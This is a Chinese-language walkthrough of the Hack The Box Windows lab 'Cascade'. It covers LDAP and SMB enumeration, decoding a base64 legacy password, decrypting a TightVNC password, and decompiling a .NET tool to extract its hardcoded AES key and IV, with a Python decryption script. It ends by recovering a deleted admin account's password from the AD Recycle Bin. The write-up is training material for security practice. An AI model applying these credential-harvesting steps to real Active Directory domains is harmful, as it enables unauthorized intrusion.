

## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Cascade  
❯ nmap Cascade.htb -sV -T4    

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

把**cascade.local**添加到**/etc/hosts**

## UserEnum

```
[root@kali] /home/kali/Cascade  
❯ enum4linux -a cascade.local 

----
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
```

## ldapsearch

```
[root@kali] /home/kali/Cascade  
❯ ldapsearch -x -b "dc=cascade,dc=local" -H ldap://cascade.local "(objectClass=*)"  > ldapresult.txt
```


在**Ryan**用户下的信息中发现旧密码(**Legacy password**)，需要**Base64**解密

## SMB File Leak

使用这个账户查看**SMB**，发现**Data**可以读取


```
smb: \IT\Email Archives\> ls
  .                                   D        0  Wed Jan 29 02:00:30 2020
  ..                                  D        0  Wed Jan 29 02:00:30 2020
  Meeting_Notes_June_2018.html       An     2522  Wed Jan 29 02:00:12 2020

                6553343 blocks of size 4096. 1625364 blocks available
```

找到一个**html**文件，大概是说用户名和密码一样

```
-- We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is XXXXX (password is the same as the normal admin account password).
```

同时在**s.smith**这个目录下拿到一个**VNC**文件


## Crack VNC Passwd

并且里面有密码字段，需要十六进制解密，并且顶部注意到**TightVNC**的字样


- [frizb/PasswordDecrypts: Handy Stored Password Decryption Techniques](https://github.com/frizb/PasswordDecrypts)

解密得到密码


登录拿到**user.txt**


## Privilege Escalation

还有另一个用户**arksvc**存在


### .NET Decompile

用**smith**的账户登入**SMB**


发现一个**DB**文件


下载一个.net反编译工具

- [dnSpy/dnSpy: .NET debugger and assembly editor](https://github.com/dnSpy/dnSpy)

查看反编译的代码

```
using(SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader()) {
    sqliteDataReader.Read();
    str = Conversions.ToString(sqliteDataReader["Uname"]);
    str2 = Conversions.ToString(sqliteDataReader["Domain"]);
    string text = Conversions.ToString(sqliteDataReader["Pwd"]);
    try {
        password = Crypto.DecryptString(text, "c4scadek3y654321");
    } catch (Exception ex) {
        Console.WriteLine("Error decrypting password: " + ex.Message);
        return;
    }
}
```

查看**dll**中的代码分析，似乎是**AES**加密方式


获取到了一些必要参数

```
password = Crypto.DecryptString(text, "c4scadek3y654321")

---

aes.BlockSize = 128;
aes.KeySize = 128;
aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
aes.Key = Encoding.UTF8.GetBytes(Key);
aes.Mode = CipherMode.CBC;
```

写一个**python**脚本即可解密

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from Crypto.Random import get_random_bytes
import base64

# 密钥和初始化向量 (IV)
key = b'c4scadek3y654321'  # 16 字节 (128位) 密钥
iv = b'1tdyjCbY1Ix49842'   # 16 字节 IV

# 加密后的密文 (base64 编码)
encrypted_text = 'BQO5l5Kj9MdErXx6Q6AGOw=='

# 将密文从 base64 解码成字节
ciphertext = base64.b64decode(encrypted_text)

# 创建 AES 解密器
cipher = AES.new(key, AES.MODE_CBC, iv)

# 解密并去除填充
try:
    decrypted_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    decrypted_text = decrypted_data.decode('utf-8')
    print("解密后的文本:", decrypted_text)
except (ValueError, KeyError) as e:
    print("解密失败:", e)
```


现在就拿到了**arksvc**的权限

### Bloodhound


**arksvc**属于**AD RECYCLE BIN**这个组，这个组授予用户读取已删除用户的权限信息

```
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

拿到**TempAdmin**的密码，需要**base64**解密


在上面的**SMB**泄露的那个**HTML**文件里不是说过吗，**TempAdmin**的密码和管理员的一模一样，因此可以直接登录**Administrator**用户，拿到**root.txt**



## Summary

`User`：**ldapsearch**发现旧密码可以登录**SMB**，在**SMB**里拿到**VNC**密码文件，解密后登录拿到**user.txt**

`Root`：将**.NET**加密工具进行反编译，判断出是**AES**的**CBC**模式加密，由于相关参数都是固定值，可以直接解密从而拿到**arksvc**的权限。域内分析得到arksvc具有特殊权限，可以查看被删除的用户信息，泄露出**TempAdmin**的密码，和上面的**HTML**文件呼应，最后登录管理员账户拿到**root.txt**。
